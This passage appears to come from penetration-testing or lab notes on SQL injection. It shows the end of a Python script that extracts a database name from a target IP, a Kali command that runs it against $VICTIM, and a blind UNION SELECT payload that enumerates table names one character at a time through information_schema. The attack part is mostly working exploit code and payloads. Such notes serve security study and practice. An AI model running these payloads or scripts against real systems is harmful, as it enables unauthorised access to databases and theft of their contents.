 ```
                break
            elif i == " " :
                print("\n[#] Attack compleated B)")
                print(f"DB_NAME: {tmp}")
                exit()


def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <ip>" % sys.argv[0])
        print("(+) Example: %s 192.168.0.1" % sys.argv[0])
        return
    url = sys.argv[1]
    print("(+) Retrieving database..")
    sqli(url)

if __name__ == "__main__":
    main()

```

**Kali**

```
python script.py $VICTIM
```

<figure><img src="../../.gitbook/assets/image (966).png" alt=""><figcaption></figcaption></figure>

## Table enumeration <a href="#e78c" id="e78c"></a>

**Statement**

```
' UNION SELECT 1,2,3,4 FROM information_schema.tables WHERE table_schema = database() AND table_name LIKE BINARY 'a%' -- -
```

**script.py**
